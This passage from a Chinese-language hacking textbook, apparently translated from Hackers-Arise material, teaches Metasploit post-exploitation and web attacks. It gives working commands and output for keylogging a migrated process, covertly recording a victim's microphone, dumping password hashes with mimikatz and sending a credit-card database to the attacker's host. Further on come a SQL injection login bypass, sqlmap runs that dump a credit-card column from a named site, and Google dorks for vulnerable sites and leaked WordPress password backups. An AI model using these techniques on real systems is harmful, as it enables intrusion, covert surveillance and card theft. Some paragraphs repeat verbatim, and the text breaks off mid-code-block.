它是一种软件键盘记录器。优点是可以远程安装。缺点是它一次只能记录一个进程的击键（理论上，你可以拥有多个 `meterpreter`，同时记录多个进程的击键，例如 MS Word、记事本、Chrome 和 Firefox）。

为了使用我们的键盘记录器，我们需要决定要捕获击键的目标进程，然后将 `meterpreter` 迁移（移动）到该进程。

第一步是在 `meterpreter` 提示符下输入 `ps`。与 Linux 中一样，这将列出目标系统上运行的所有进程。

`meterpreter > ps`


```
1256 480 svchost.exe x64 0 NT AUTHORITY\LOCAL SERVICE C:\Windows\System32\svchost.exe
1360 480 sspsvc.exe x64 0 NT AUTHORITY\NETWORK SERVICE C:\Windows\System32\sspsvc.exe
1624 480 svchost.exe x64 0 NT AUTHORITY\NETWORK SERVICE C:\Windows\System32\svchost.exe
1940 1732 explorer.exe x64 1 OTW-PC\OTW C:\Windows\explorer.exe
2016 480 taskhost.exe x64 1 OTW-PC\OTW C:\Windows\System32\taskhost.exe
2044 480 svchost.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\System32\svchost.exe
2104 864 wuaucilt.exe x64 1 OTW-PC\OTW C:\Windows\System32\wuaucilt.exe
2168 336 conhost.exe x64 1 OTW-PC\OTW C:\Windows\System32\conhost.exe
2296 1940 wordpad.exe x64 1 OTW-PC\OTW C:\Program Files\Windows NT\Accessories\wordpad.exe
2616 1940 ServiceHost2.exe x86 1 OTW-PC\OTW C:\Users\OTW\Desktop\ServiceHost2.exe
2924 792 audiodg.exe x64 0
```

```
meterpreter > migrate 2296
[*] Migrating from 2616 to 2296...
[*] Migration completed successfully.
```

```
meterpreter > keyscan_start
Starting the keystroke sniffer ...
```

如上所示，目标 Windows 7 系统上运行的所有进程均以 `PID`、`PPID`、进程名称、架构、会话、用户和路径列出。

如果我们稍微向下扫描此列表，可以看到一个用于 Wordpad 的进程。

高亮的进程——`2296`——正在运行 Wordpad，这是 Windows 内置的字处理程序。通常，除非用户在写东西，否则 WordPad 不会处于打开状态。让我们尝试记录该进程的击键。

为此，我们需要将 `meterpreter` 移动或迁移到该进程。

`meterpreter > migrate 2296`

既然我们已经将 `meterpreter` 植入该进程中，就可以启动键盘记录器。正如你可能预期的那样，该命令是 `keyscan_start`。

`meterpreter > keyscan_start`

```
meterpreter > keyscan_dump
Dumping captured keystrokes...
<Shift>Dear <Shift>General<<Shift><Shift>::<CR>
<CR>
<Shift>It is finally time to destroy those <Shift>American capitalist doggs. <Shift>Prepare to launch the missiles,
but first secure my final shipment of <Shift>Hostess <Shift>Twinkies.<CR>
<Shift>Your <Shift>Fearless and <Shift>Omniscient <Shift> Leader,<CR>
<Shift>Kim <Shift>Jung <Shift>Un
```

```
meterpreter > record_mic
[*] Starting...
[*] Stopped
Audio saved to: /root/HEQxmFEB.wav
```

当我们准备好检索击键时，只需使用 `keyscan_dump` 命令即可。

`meterpreter > keyscan_dump`

看来我们的目标有一些险恶的计划！幸好我们捕获了他们所有的击键！

# 将目标系统用作监听“窃听器”

作为间谍，除了从摄像头拍摄快照或传输视频流外，你可能还想启用其计算机上的内置麦克风，以收听目标的对话。在黑客历史中，已经出现了一些正是如此做的恶意软件，包括 Flame 和 Duqu。

再一次，`meterpreter` 具有内置命令来执行此操作，`record_mic`。

`meterpreter > record_mic`

如你所见，当我们运行此命令时，它会记录计算机附近的环境声音，并将它们保存在 `root` 用户目录下，使用随机文件名的 `.wav`（音频）文件中。

此 `meterpreter` 命令有许多有用的选项。例如：

- `-d`：录制秒数（默认 = 1 秒）
- `-f`：`.wav` 文件路径。
- `-p`：自动播放捕获的音频，默认值为“true”。

现在，我们可以构建一个有用的命令，录制十秒音频，创建一个名为 `spyaudio.wav` 的 `.wav` 文件，并自动通过你的系统扬声器回放音频。

`meterpreter > record_mic -d 10 -f spyaudio.wav -p true`


```
meterpreter > record_mic -d 10 -f spyaudio.wav -p true
[*] Starting...
[*] Stopped
Audio saved to: /root/spyaudio.wav
```

当然，我们只需更改 `-d` 选项后的值，就可以将此窃听器启用任意秒数。因此，例如，如果我们想要捕获一小时的音频，我们可以将该值更改为 3600：`meterpreter > record_mic -d 3600 -f spyaudio.wav -p true`

### Mimikatz

在某些情况下，`hashdump` 命令无法用于检索本地系统上的密码哈希值。

在这种情况下，我们有另一个工具可以抓取密码。此工具 `mimikatz` 由 Benjamin Delpy，也被称为 gentilkiwi，开发。

`Mimikatz` 能够从 RAM 中提取和解析信息。我们寻求的最重要信息之一是本地系统上的密码哈希值。当系统启动时，它将这些哈希值加载到 RAM 中，并使用像 `mimikatz` 这样的工具，我们可以提取它们。`Mimikatz` 曾是历史上一些重大黑客攻击的一部分，包括 NotPetya 和 Blackenergy3（[Blackenergy 3 恶意软件解剖](https://www.hackers-arise.com/post/2018-10-10/scada-hacking-anatomy-of-a-scada-malware-blackenergy-3)）。

第一步是从 meterpreter 提示符加载 `kiwi`（如果你的目标是 32 位系统，你将加载 `mimikatz`）。

`meterpreter > load kiwi`

```
meterpreter > load kiwi
Loading extension kiwi...
..#####. mimikatz 2.1.1 20180925 (x86/windows)
.## ^ ##. "A La Vie, A L'Amour"
# / \ ## /** Benjamine DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
# \ / ## > http://blog.gentilkiwi.com/mimikatz
'## v ##' Vincent LE TOUX ( vincent.letoux@gmail.com )
'#####'' > http://pingcastle.com / http://mysmartlogon.com ***/
[!] Loaded x86 Kiwi on an x64 architecture.

Success.
```

一旦 `kiwi` 加载完成，我们只需运行以下命令即可从运行系统的 SAM 文件中提取哈希值：`meterpreter > mimikatz_command -f samdump::hashes`

```
meterpreter > mimikatz command -f samdump::hashes
Ordinateur : WIN-EVJBGP133FK
BootKey : 4aeaaf316b41045c2313c72063dfb6245

Rid : 500
User : Administrator
LM :
NTLM : 31d6cfe0d16ae931b73c59d7e0c089c0

Rid : 501
User : Guest
LM :
NTLM :

Rid : 1000
User : OTW
LM :
NTLM : 8846f7eae8fb117ad06bdd830b7586c

Rid : 1001
User : Hocker
LM :
NTLM : 5e7599f673df11d5c5c4d950f5bf0157

Rid : 1002
User : hacker2
LM :
NTLM : 32ed87bdb5fdc5e9cba88547376818d4
```

```
meterpreter > run arp_scanner -r 192.168.0.0/24
[*] ARP Scanning 192.168.0.0/24
[*] IP: 192.168.0.101 MAC 00:0c:29:e9:a7:e4
[*] IP: 192.168.0.115 MAC 00:0c:29:99:c9:41
[*] IP: 192.168.0.255 MAC 00:0c:29:e9:a7:e4
```

如上所示，`mimikatz` 能够从未系统中 RAM 提取所有用户账户并为我们显示出来。要了解 `mimikatz` 的众多功能，请访问 https://www.hackers-arise.com

arise.com/post/2018/11/26/metasploit-basics-part-21-post-exploitation-with-mimikatz.

## 扫描内部网络

通常，我们攻击的最终目标与我们已攻陷的系统是不同的。最终目标可能是网络上的另一台系统，例如同一网络上的数据库服务器或域控制器。既然我们已经在网络内部拥有了立足点，我们就可能利用该立足点攻陷整个网络！

攻陷网络中其他系统的第一步是扫描，以查看网络上有哪些可用资源。最终，我们希望从被攻陷的系统跳转到同一网络上的其他计算机和设备。

为了弄清楚网络上还有哪些系统，`meterpreter` 提供了一条后渗透命令：`arp_scanner`。地址解析协议（ARP）用于在局域网（LAN）中将 MAC 地址映射为 IP 地址。

该工具模拟了这一过程，迫使网络中的系统暴露其 IP 地址和 MAC 地址。

现在我们就知道了网络中的每个系统！

```
meterpreter > shell
Process 340 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>mysql -u root -p
Enter password: ****
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 1
Server version: 5.1.70-community MySQL Community Server (GPL)

Copyright (c) 2000, 2013, Oracle and/or its affiliates.  All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help.  Type '\c' to clear the current input statement.
```

### MySQL 的后渗透

在第 8 章中，我们在 Windows 7 目标上的 MySQL 数据库上使用了暴力破解密码工具。我们轻松地恢复了密码，因为管理员使用的是弱密码。现在我们拿到了密码，在后渗透阶段可以做什么？

**连接到数据库**

第一步是使用我们在第 8 章破解的密码连接到 Windows 7 系统上的 MySQL 数据库。

**进入 Shell**

首先，我们需要从 `meterpreter` 切换到 Windows shell。

`meterpreter>shell`

然后我们需要连接 MySQL。

`C:\Windows\system32> mysql -u root -p`

系统会提示你输入密码。输入第 8 章中的密码并按 ENTER 键。

此时我们将得到一个 `mysql` 提示符。

`mysql>`

接下来，我们请求 MySQL 显示所有数据库。

`mysql > show databases;`

```
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| movedb             |
| mysql              |
| test               |
+--------------------+
4 rows in set (0.19 sec)
mysql> use movedb;
Database changed
mysql>
```

你可以看到，有一个名为“`movedb`”的数据库看起来很感兴趣。这正是我们在第 4 章使用脚本在 Windows 7 系统上创建的那个数据库。

接下来，我们需要指示 MySQL 数据库系统使用那个数据库（`movedb`）。

`mysql > use movedb`


然后我们可以显示该数据库内的表。

`mysql > show tables;`

要查看表 `creditcards` 中的所有数据，我们可以输入：

`mysql > SELECT * FROM creditcards;`

如果数据量太大，无法截图并复制到纸上，我们可以将整个数据库转储到我们的 Kali 系统中。首先，我们需要退出 mysql 并回到命令提示符。

`mysql > quit`

`C:\`

现在，从命令提示符，我们可以调用用于创建数据库备份的 `mysqldump` 命令，并将其输出重定向到我们的远程系统：

`mysqldump -u root -p -h 192.168.1.103 movie-db > backup.sql`

# 总结

在利用目标系统之后，攻击者通常希望在该系统上执行**某些**操作。这通常被称为后渗透。使用 Metasploit，我们可以借助 Metasploit 命令和后渗透模块获得众多选择，使我们能够：

1. 提取密码哈希
2. 拍摄或流式传输网络摄像头画面
3. 激活并录制麦克风音频
4. 扫描网络
5. 记录目标的所有按键操作（键盘记录）

针对 MySQL 数据库，由于管理员使用了弱密码，我们能够将数据库中的所有数据提取或转储到我们的远程系统。

### 练习

- 1. 在 Metasploit 中查找所有后渗透模块。
- 2. 在 Metasploit 中查找所有 Windows 后渗透模块。
- 3. 利用一台 Windows 7 系统并获取 meterpreter 提示符。
- 4. 使用 `hashdump` 命令捕获哈希值并下载到你的 Kali 系统。
- 5. 将 meterpreter 迁移到目标正在使用的进程中，并捕获其按键操作。
- 6. 使用你在第 8 章中找到的密码连接并登录 mysql 数据库，然后转储该数据库。


## 1.2 Web 黑客攻击

> *如果一项服务是免费的，那么你不是顾客，你是产品。*
>
> *Master OTW*

**互联网和万维网（www）在其短暂的生命历程中使许多美好的事物成为可能。列举这些美好事物的清单可以写满好几页，但也许最重要的意义在于电子商务和社交网络的发展。这两个应用以深刻的方式改变了我们的生活。然而，随着所有这些好处而来的，也有阴暗的一面。**

所有这些流量都容易遭受拦截和篡改。

在开始本章之前，请注意本章标题为“Web 黑客攻击”。与许多关于黑客和渗透测试的书籍不同，这里不是指“Web 应用黑客攻击”。原因是破解 Web 流量的**无数**方法中，并不全都是针对 Web 应用程序或 Web App 的攻击。

为了开始本章，让我们先战略性地思考 Web 黑客攻击。有许多攻击 Web 流量的策略，与其只关注其中一种，不如我们先看看各种可能性，然后专注于其中少数几种。书中关于黑客的一章甚至无法触及表面，因此，我们将专注于策略和一些例子。

如果你是 Web 技术的新手，或者需要复习基础知识，请查看我在 Hackers-Arise 上关于 Web 技术基础的文章，地址为 https://www.hackers-arise.com/single-post/2018/07/22/Web-App-Hacking-Web-Application-Technologies-Part-1.

### Web 黑客攻击的方法

虽然有成百上千种黑客攻击 Web 的方式，但它们可以归类为八种基本类型。

### 1. 攻击客户端控制

Web 黑客攻击中最受欢迎的领域之一是攻击客户端控制。

### 2. 攻击身份验证

身份验证黑客攻击可能包括绕过身份验证（例如捕获令牌并重放）、客户端附带请求、跨站点请求伪造（CSRF），以及当然的破解用户名和密码（参见下文关于从 WordPress 网站收集用户名并暴力破解密码的部分）。

### 3. 攻击会话管理

会话管理使应用程序能够跨多个请求唯一地识别用户。

当用户登录时，会话管理使用户能够与 Web 应用交互，而无需对每个请求重新进行身份验证。由于其关键作用，如果我们能破坏应用程序的会话管理，我们就可以绕过身份验证。这样，我们就不需要破解用户名和密码来获得访问权限。

### 4. 访问控制与授权的攻击

在这个领域，黑客会指认访问控制列表（ACL）并以允许黑客违反 ACL 的方式攻击它们。

### 5. 后端组件的攻击

后端组件的攻击包括使用 `sqlmap` 等工具进行 SQL 注入（参见下文关于 SQL 注入的部分），但也包括针对 XPATH 和 LDAP 的攻击和注入。

### 6. 攻击用户

攻击用户是我最喜欢的 Web 黑客技术之一。

从技术上讲，它不是 Web 黑客攻击，因为我们攻击的是最终用户，而不是 Web 应用，通过诱导他们访问我们的网站并在其浏览器甚至系统中加载恶意软件。这些技术包括跨站点脚本攻击（XSS）、跨站点请求伪造、攻击浏览器以及违反同源策略。

### 7. 攻击 Web 应用管理

在许多情况下，Web 应用程序具有管理控制台或其他管理界面。如果我们能访问该控制台或界面，我们理论上可以更改网站的一切，包括篡改它。

### 8. 攻击 Web 服务器

在某些情况下，我们可以黑客攻击 Web 应用程序的底层服务器，例如 Microsoft 的 Internet Information Server (IIS)、Apache Project 的 Apache 服务器或 nginx。如果我们获得了对底层服务器的控制和访问权限，这可能会给我们提供一个进入 Web 应用程序的入口点。

### 1. 注入

**根据开放 Web 应用安全项目（OWASP）对网站漏洞的定义，以下是 2019 年最重要的十大 Web 应用漏洞：**

## 2. 失效的认证与会话管理

## 3. 敏感数据暴露

## 4. XML 外部实体

## 5. 失效的访问控制

## 6. 安全配置错误

## 7. 跨站脚本攻击

## 8. 不安全反序列化

## 9. 使用已知漏洞的组件

既然 OWASP 将“注入”列为最高优先级（我同意。总体而言，SQLi 给网站带来的经济损失最大），接下来让我们讨论一下。

让我们来研究一种常见的注入攻击类型：SQL 注入。

### SQL 注入或 SQLi

SQL 即结构化查询语言，是关系型数据库的通用语言。它最早由 IBM 在 20 世纪 70 年代开发（20 世纪 60 和 70 年代还有什么不是 IBM 开发的呢？），如今几乎在所有数据库管理系统（DBMS）中都被使用，包括 MySQL (MariaDB)、微软的 SQL Server、IBM 的 DB2、Oracle、postgresql 以及许多其他系统。该语言主要用于从数据库查询数据，但也用于删除、更新和插入数据。


#### 关系型数据库模型

几乎每个网站背后都有一个数据库。这些数据库用于身份验证、电子商务、存储网站对象、存储信用卡号、存储客户数据以及几乎所有其他功能。如果攻击者能够通过 Web 应用向后端数据库发送 SQL 命令，他们可能会使数据库执行这些命令并删除或，更好的是，泄露其数据。

在研究 SQL 注入攻击之前，我们需要先了解一点 SQL 基础知识。SQL 是一种简单的语言，对语法要求宽容，但对逻辑要求严格。最基本的 SQL 查询看起来像这样：

```sql
SELECT <columns> FROM <table> WHERE <conditions>
```

在 SELECT 子句中，程序员希望从表中的特定**列**返回数据。在 FROM 子句中，程序员定义了要从中提取列的**表**。WHERE 定义了数据应满足的**条件**，例如**city=Detroit**。

这种基本查询也可以用于身份验证目的。想象一个数据库，其中在一个名为 "USERS" 的表中存储了每个用户的用户名和密码。我们可以通过要求用户在表单中输入用户名和密码，然后检查数据库表以查看这两个值是否匹配单个用户来验证用户。当用户将数据输入身份验证表单时，这样的查询看起来像这样。


登录名：OTW

密码：HackersArise


登录名：OTW 'OR 1=1 --

密码：anything

```sql
SELECT USERNAME, PASSWORD
FROM USERS
WHERE USERNAME ='OTW' AND PASSWORD = 'HackersArise'
```


注意在带有条件的 `WHERE` 子句中，我们有一个逻辑 `AND`。这意味着为了成功认证并访问系统，两个条件都必须求值为 `TRUE`。如果其中任何一个为 `FALSE`，则查询求值为 `FALSE`，用户将未获得认证且无法进入系统。这种方法与大多数系统验证用户的方式类似。

还要注意，在用户名和密码字段中，条目都用单引号 (`'`) 括起来。在 SQL 的 `WHERE` 子句中使用字符串（文本）时，这是标准做法。

## 绕过身份验证

同样重要的是要注意，在 SQL 中，双破折号 (`--`) 充当注释字符。这意味着如果出现 "`-`" ，SQL 解释器将忽略该行之后的所有内容。

现在，如果我将在身份验证表单中输入以下信息会发生什么？

现在，当该信息发发回数据库时，SQL 查询将如下所示：

```sql
SELECT USERNAME, PASSWORD
FROM USERS
WHERE USERNAME = 'OTW' OR 1=1-- AND PASSWORD = 'anything'
```

当数据库评估此语句时，`USERNAME='OTW'` 为 `TRUE`。此外，`1=1` 始终求值为 `true`。`--` 之后的所有内容都被视为注释并被 SQL 解释器忽略，因此该语句求值为 `TRUE`，即使没有使用密码也能完成认证！

你对 SQL 了解得越多，在 SQL 注入方面的效果就越强。我们利用了标准的 SQL 命令和字符，使数据库执行**我们**想要的事情。一些关键的 SQL 注入字符包括：

| 字符 | 描述 |
| :--- | :--- |
| `;` | 语句终止 |
| `'` 或 `"` | 字符字符串指示符 |
| `--` 或 `#` | 单行注释 |
| `/*...*/` | 多行注释 |
| `+` | 加法或连接 |
| `||` | 连接 |
| `%` | 通配符 |
| `?Param1=foo&Param2=bar` | URL 参数 |
| `PRINT` | 作为非事务命令很有用 |
| `@variable` | 局部变量 |
| `@@variable` | 全局变量 |
| `WAITFOR DELAY` | 等待延迟 `'00.00.00'` |
| ` ` | 盲注 SQL 注入的时间延迟 |

现在我们已经具备了 SQL 注入的基础知识，让我们在一个测试站点上试一试。

## 使用 sqlmap 进行 SQL 注入

用于 SQL 注入的工具种类繁多，但使用最广泛的可能是 `sqlmap`。`sqlmap` 的美妙之处在于它能够识别后端数据库、枚举其结构，并从 Web 表单向数据库注入 SQL 命令。此外，它对大多数 RDBMS 都能发挥作用。

为了进入网站内部，并最终进入数据库，我们需要找到一个入口点。我们在寻找以 "`php?id=xxx`" 结尾的网站，其中“`xxx`”代表某个数字。我们可以使用 Google 技巧/搜索词来识别这些站点。例如，你可以在 Google 上输入以下内容进行搜索：

```
inurl:index.php?id=
inurl:gallery.php?id=
inurl:post.php?id=
inurl:article?id=
```

...以及其他许多。

这些搜索词会列出数百万个具有此基本漏洞标准的网站。如果你有创造力和雄心壮志，你可以在网上找到许多列出易受攻击网站的网站。你可能想看看这些。

在第 7 章中，我们对许多系统进行了漏洞扫描。其中一个工具是 `OWASP-ZAP`，由开放 Web 应用安全项目 (`OWASP`) 开发。在第 7 章中，我们使用它扫描网站 `www.webscantest.com` 中的漏洞。如果我们回到第 7 章的结果，我们可以看到 `OWASP-ZAP` 列出了许多该站点易受 SQL 注入攻击的地方。其中之一是：

```
www.webscantest.com/datastore/search_get_by_id.php?id=4
```

让我们使用该 URL 看看我们是否可以对这个站点执行 SQLi 攻击。

`Sqlmap` 内置于我们的 Kali 中，因此无需下载或安装任何东西。只需在命令行输入 `sqlmap` 即可访问 `sqlmap`。如果在 `sqlmap` 命令后加上 `-h` 选项，它将显示如下图所示的帮助屏幕。

```
kali > sqlmap -h
```

```bash
root@kali-2019:~# sqlmap -h
                  _
   ___  _ __  _ __ ___   __ _ _ __  ___  __
{1.3.8#stable}
  |_ _| |/_\ | |_  / _ \\ | '_ \\__| |/ _ \\
      __ / | | | | | | | | | (_| |   | | | (_| |
      |_|   |_| |_| |_| | |_|\__|_| |_|\__,_|||_|_|/ \\

      |_||_|

  http://sqlmap.org

Usage: python2 sqlmap [options]

Options:
  -h, --help          显示基本帮助消息并退出
  -hh                 显示高级帮助消息并退出
  --version           显示程序版本号并退出
  -v VERBOSE          详细程度级别：0-6 (默认 1)

Target:
  必须提供以下选项之一来定义目标
  -u URL, --url=URL   目标 URL (例如 "http://www.site.com/vuln.php?id=1")
  -g GOOGLEDORK       将 Google 搜索词结果作为目标 URL 处理

Request:
  这些选项可用于指定如何连接到目标 URL
  --data=DATA         通过 POST 发送的数据字符串 (例如 "id=1")
  --cookie=COOKIE     HTTP Cookie 头值 (例如 "PHPSESSID=a8d127e...")
  --random-agent      使用随机选择的 HTTP User-Agent 头值
  --proxy=PROXY       使用代理连接目标 URL
  --tor               使用 Tor 匿名网络
  --check-tor         检查是否正确使用了 Tor
```

### 注入：

这些选项可用于指定要测试的参数，提供自定义注入载荷以及可选的篡改脚本

- `-p TESTPARAMETER`: 可测试参数

- `-d oms=DBMS`: 强制后端 DBMS 为提供的值

### 检测：

这些选项可用于自定义检测阶段

- `--level=LEVEL`: 执行测试的级别 (1-5，默认 1)

- `--risk=RISK`: 执行测试的风险 (1-3，默认 1)

### 技术：

这些选项可用于调整对特定 SQL 注入技术的测试

- `--technique=TECH...`: 要使用的 SQL 注入技术 (默认 "BEUSTQ")

### 枚举：

这些选项可用于枚举后端数据库管理系统信息、结构以及表中包含的数据。此外，你还可以运行自己的 SQL 语句

- `-a, --all`: 获取所有信息

- `-b, --banner`: 获取 DBMS 横幅

- `--current-user`: 获取 DBMS 当前用户

- `--current-db`: 获取 DBMS 当前数据库

- `--passwords`: 枚举 DBMS 用户密码哈希

- `--tables`: 枚举 DBMS 数据库表

- `--columns`: 枚举 DBMS 数据库表列

- `--schema`: 枚举 DBMS 架构

- `--dump`: 导出 DBMS 数据库表条目

- `--dump-all`: 导出所有 DBMS 数据库表条目

- `-D DB`: 要枚举的 DBMS 数据库

- `-T TBL`: 要枚举的 DBMS 数据库表

- `-C COL`: 要枚举的 DBMS 数据库表列

我们可以将 `sqlmap` 语法的用法简化为：`sqlmap -u <URL> <可选选项>`。如果我们对使用 `OWASP-ZAP` 识别出的可能易受 SQL 注入攻击的 URL 运行此命令，我们应该能够收集到一些开始工作所需的基本信息。第 219 | 页

```
[15:25:25] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL >= 5.0
[15:25:25] [INFO] fetched data logged to text files under '/root/.sqlmap/output/www.webscantest.com/'
[*] ending @ 15:25:25 /2019-08-11/
```


```
[15:41:39] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL >= 5.0
[15:41:39] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] webscantest
```

我们需要收集的信息包括：(1) 数据库管理系统的类型，(2) 操作系统，以及 (3) 开发人员在该网站上使用的 PHP 版本。

```
kali > sqlmap -u "http://www.webscantest.com/datastore/search_get_by_id.php?id="
```

正如上面所示，`sqlmap`能够识别该站点的后端数据库为`MySQL`版本 >=5.0，操作系统为`Linux Ubuntu`，`PHP`版本为`5.5.9`，Web 服务器为`Apache 2.4.7`。对于一个单一命令来说，这相当不错！

## 识别 DBMS 中的数据库

下一步是尝试识别该系统上存在哪些数据库。关于术语的一个快速说明：`MySQL`、`MS SQL Server`、`Oracle`、`postgreSQL`等是数据库管理系统 (`DBMS`)。

这是**管理**数据库的软件。数据库是在这些`DBMS`内部创建的。我们现在需要识别该数据库系统中存在哪些数据库。

我们可以通过简单地添加选项`-dbs`来识别该系统中的数据库，例如：

```
kali > sqlmap -u "http://www.webscantest.com/datastore/search_get_by_id.php?id= 1" -dbs
```

正如上面所示，`sqlmap`识别出两个数据库：`information_schema`和`webscantest`。由于`information_schema`是`DBMS`使用的数据库，因此它并不是我们在这里关注的重点，所以我们将注意力集中在`webscantest`数据库上。

```
Database: webscantest
Table: accounts
[5 columns]
| Column | Type |
| fname | varchar(50) |
| id | int(50) |
| lname | varchar(100) |
| passwd | varchar(100) |
| uname | varchar(50) |
```

```
Database: webscantest
Table: products
[5 columns]
| Column | Type |
| description | text |
| id | bigint(3) unsigned |
| name | varchar(50) |
| photo | varchar(512) |
| price | double(10,0) unsigned |
```

```
Database: webscantest
Table: inventory
[4 columns]
| Column | Type |
| description | text |
| id | tinyint(3) unsigned |
| name | varchar(50) |
| price | double(10,0) unsigned |
```

```
Database: webscantest
Table: orders
[19 columns]
| Column | Type |
| billing_address | varchar(100) |
| billing_cc_CVV | varchar(3) |
| billing_cc_expire | varchar(20) |
| billing_cc_number | varchar(20) |
| billing_city | varchar(100) |
| billing_email | varchar(100) |
| billing_firstname | varchar(100) |
| billing_lastname | varchar(100) |
| billing_state | varchar(2) |
```


下一步是找到该数据库的结构。如果我们要在数据库中查找特定信息，我们需要找出它在哪里。当我们枚举该数据库中的表和列时，我们可能就能了解到这一点。

```
kali > sqlmap -u “http://www.webscantest.com/datastore/search_get_by_id.php?id=1”
```

`-columns -D webscantest`

这样做时，`sqlmap`将针对`webscantest`数据库并尝试枚举该数据库中的表和列。

正如上面所示，`sqlmap`成功枚举了三个表：(1) `accounts`，(2) `inventory`和 (3) `orders`，并带有完整的列名和数据类型。不错！如果我们仔细观察`orders`表，我们可以看到包含信用卡信息（`billing_CC_number`）的字段。让我们尝试获取这些数据。

```
[10:53:52] [WARNING] fetching entries of column(s) 'billing_CC_number' for table 'orders' in database 'webscantest'
[10:53:52] [WARNING] combining with a single UNION technique could be advised of limitation of UNION to prevent potential disruptions
[10:53:53] [WARNING] the SQL query provided does not return any output
[10:53:54] [WARNING] in case of continuous data retrieval problems you are advised to try a switch --csv=1 or switch --hex
[10:53:54] [WARNING] fetching more of column(s) 'billing_CC_number' entries for table 'orders' in database 'webscantest'
[10:53:54] [WARNING] running in a single-thread mode. Please consider usage of option "--threads" for faster retrieval
[10:53:53] [WARNING] unexpected HTTP code '503' detected. Will use (extra) validation step in similar cases
[10:53:53] [WARNING] time-based comparison requires larger statistical model, please wait... [done]
[10:53:53] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
[10:53:53] [WARNING] unable to retrieve the number of column(s) 'billing_CC_number' entries for table 'orders' in database 'webscantest'
[10:53:53] [WARNING] HTTP error codes detected during run:
503 (Service Unavailable) - 33 times
[10:53:53] [INFO] fetched data logged to text files under '/root/.sqlmap/output/www.webscantest.com'
```

一旦我们访问了数据库，知道了数据库名称以及表和列，我们就可以开始转储数据了。要从`orders`表中的信用卡号列执行此操作，我们可以输入以下命令：

```
kali > sqlmap -u “http://www.webscantest.com/datastore/search_get_by_id.php?id= 1” -dump -C
```


`billing_CC_number -T orders -D webcantest`

其中：

- `-C billing_CC_number` 是包含信用卡号的列
- `-T orders` 是包含我们要查找的列的表名
- `-D webcantest` 是包含数据的数据库

正如上面所示，`sqlmap` 能够提取该列中的数据，并将其放入我们的 Kali 系统的 `/root/.sqlmap/output/www.webcantest.com` 中。成功了！

# 攻击 WordPress 网站

有许多技术用于构建网站，因此攻击它们的技术和策略也大不相同。你攻击基于 .NET 的网站的方式与你攻击 `WordPress` 网站的方式将大不相同（有关一些通用攻击策略，请参见 Hackers-Arise 的 Web App Hacking 系列）。

许多网站是用通常所说的内容管理系统 `CMS` 构建的。通常，这些 CMS 是基于常见的 LAMP 技术栈构建的，包括 Linux、Apache、MySQL 和 PHP。一些常用的 CMS 包括 `WordPress`、`Joomla`、`Drupal`、`Ruby on Rails` 以及多个其他系统。在撰写本文时，这些是最常见的 CMS 及其市场占比。

`WordPress`

`22.6M`

`Joomla`

## 寻找基于 WordPress 的网站

第一步是找到基于 WordPress 的网站。实现这一目标的方法有很多种。最简单的方法之一是使用 Google Hacking（谷歌黑客搜索技术）。请回想一下第 5 章，我们当时使用了一些关键词来查找 Google 数据库中的特定数据。在这里，我们可以采用相同的方法来寻找基于 WordPress 构建的网站。

WordPress 生成的 URL 中有一些独特的特征标识。例如，你会发现以下内容存在于大多数 WordPress 网站中：

- `wp-content`
- `wp-config`
- `wp-includes`
- `wp-json`
- `wp-login`
- ...以及许多其他。

我们可以使用这些具有标识性和独特性的特征 URL，配合如下的 Google dorks（谷歌黑客搜索语句）来查找 WordPress 网站：

`inurl:wp-content`

`inurl:wp-config`

`inurl:wp-includes`

...以及其他。

让我们尝试使用第一个 dork，看看我们能找到多少个 WordPress 网站。

如你所见，Google 找到了 2.13 亿个在其 URL 中包含该特征的网站。这是一笔相当可观的收获！

让我们更具体一点。看看有多少“黑客”网站使用了 WordPress。我们可以通过在 `inurl:` 子句后添加单词“hacking”来细化我们的 Google dork。这将起到逻辑“与”的作用，从而将输出限制为同时满足这两个条件的网站。

`inurl:wp-content hacking`


如你所见，Google 找到了 2.13 亿个在其 URL 中包含该特征的网站。这是一笔相当可观的收获！

让我们更具体一点。看看有多少“黑客”网站使用了 WordPress。我们可以通过在 `inurl:` 子句后添加单词“hacking”来细化我们的 Google dork。这将起到逻辑“与”的作用，从而将输出限制为同时满足这两个条件的网站。

`inurl:wp-content hacking`


我们成功地将搜索范围缩小到了仅 190 万个网站。

正如我们在第 5 章中看到的，如果我们的 dork 能够找到包含密码的数据泄露，Google dorks 也可以作为一种利用策略。例如，许多 WordPress 网站会自动备份其数据库命令并将其存储在网站上。这些备份通常以明文形式存储密码。

让我们找一个看看。

`inurl:wp-config-backup.txt`

这个 Google dork 将寻找 WordPress 网站中的备份文件。当我们运行这个 Google Dork 时，我们找到了 108 个结果。让我们点击其中一个。

如你所见，该网站在创建备份时泄露了其关键数据。第一个箭头旁边是数据库名称。第二个箭头旁边是用户名，最后，最后一个箭头旁边是用户密码！

当人们将密码留在他们的网站上时，黑客攻击就变得非常简单，非常简单。


# WordPress 网站是如何被黑客入侵的？

WordPress 由一个核心产品组成，允许开发人员添加主题和插件。尽管核心 WordPress 多年来出现过许多严重的安全问题，但插件是入侵 WordPress 网站最常见的途径。这些插件通常由小型独立开发人员开发，许多插件在上市前并未进行适当的安全审查。因此，它们是 WordPress 生态系统中的“低垂果实”（容易获取的目标）。

如下所示，插件导致了超过 50% 的 WordPress 黑客攻击。

## WordPress 漏洞

在第 7 章中，我们讨论了操作系统和应用程序的漏洞扫描。在这里，让我们看看一个专门用于 WordPress 的漏洞扫描器，名为 `wpscan`。

`wpscan` 由 `Sucuri` 开发，这是一家专注于 WordPress 的安全咨询公司。这是一个用于查找 WordPress 网站、主题和插件漏洞的极佳工具。

`wpscan` 已内置于我们的 Kali 中，因此要启动 `wpscan`，我们只需输入：

```bash
kali > wpscan -h
```


```bash
